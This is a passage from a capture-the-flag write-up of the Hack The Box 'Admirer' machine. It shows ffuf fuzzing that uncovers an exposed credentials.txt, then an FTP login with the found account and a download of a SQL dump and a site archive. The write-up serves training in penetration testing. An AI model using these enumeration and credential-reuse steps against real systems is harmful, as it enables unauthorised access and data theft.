 ```
$ ffuf -c -w custom-wordlist.txt -u http://admirer.htb/admin-dir/FUZZ -e .txt,.html

credentials.txt         [Status: 200, Size: 136, Words: 5, Lines: 12]
:: Progress: [3744/3744] :: Job [1/1] :: 247 req/sec :: Duration: [0:00:18] :: Errors: 0 ::
```

# credentials.txt, let's see.

Even though we have found the credentials, I would leave ffuf running in the background with a more complete dictionary in case there is more interesting stuff.

credentials.txt

![](/assets/images/htb-writeup-admirer/credentials_txt.png)

Let's try with the ftp service credentials. The others we write down in a notepad.

```
$ ftp 10.10.10.187

Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:lib): ftpuser
331 Please specify the password.
Password:
230 Login successful.

Remote system type is UNIX.
Using binary mode to transfer files.
```

Let's see which shared files are in ftp.
```
ftp> pwd
257 "/" is the current directory

ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-x---    2 0        111          4096 Dec 03  2019 .
drwxr-x---    2 0        111          4096 Dec 03  2019 ..
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
```

There are only two shared files, we download them to our computer to see what they contain inside.

```
ftp> binary
200 Switching to Binary mode.
ftp> mget *
mget dump.sql? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for dump.sql (3405 bytes).
226 Transfer complete.
3405 bytes received in 0.00 secs (3.5106 MB/s)
mget html.tar.gz? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for html.tar.gz (5270987 bytes).
226 Transfer complete.
5270987 bytes received in 3.88 secs (1.2963 MB/s)
```